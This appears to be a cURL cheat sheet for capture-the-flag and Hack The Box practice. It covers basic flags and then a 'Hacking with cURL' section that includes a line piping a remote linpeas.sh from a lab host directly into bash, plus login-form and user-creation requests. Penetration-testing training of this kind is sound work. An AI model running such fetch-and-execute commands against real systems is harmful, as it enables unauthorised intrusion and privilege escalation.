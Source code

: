 ## cURL Save the server response to a file
```Bash
$ curl -o payload.sh http://10.10.10.10/payload.sh
```

## cURL download a file to the current folder
```Bash
$ curl -O http://10.10.10.10/payload.zip
```

## cURL follow HTTP/1.1 302 Found redirects
```Bash
curl -L http://10.10.10.10/profile.php
```

## cURL Output Response Headers to STDOUT
```Bash
$ curl -i http://10.10.10.10/profile.php
```

## cURL view verbose debugging information (response headers and other debug details - STD2)
```Bash
$ curl -v http://10.10.10.10/profile.php
```

# Hacking with cURL
Now that we have covered the basic syntax and use cases, here are some practical hacking applications that are very helpful on Hackthebox or CTF boxes.

## Using cURL to pipe a remote scipt (linpeas.sh) directly to bash:
```Bash
$ curl -sSk "http://10.10.10.10/linpeas.sh" | bash
```

## Attacking a Login Form with cURL
```Bash
$ curl --data "email=test@test.com&password=test" http://10.10.10.10/login.php
```

## Creating new users with cURL
```Bash
$ curl --data "name=test&email=test@test.com&password=test" http://10.10.10.10/newuser.php
```

# Fuzzing Web Servers with cURL
Often we performing an assessment against a webserver, we will attempt to trigger error conditions which will provide some deeper insights into the underlying processes and software. cURL can be a powerful fuzzing tool for generating these edge case error messages.
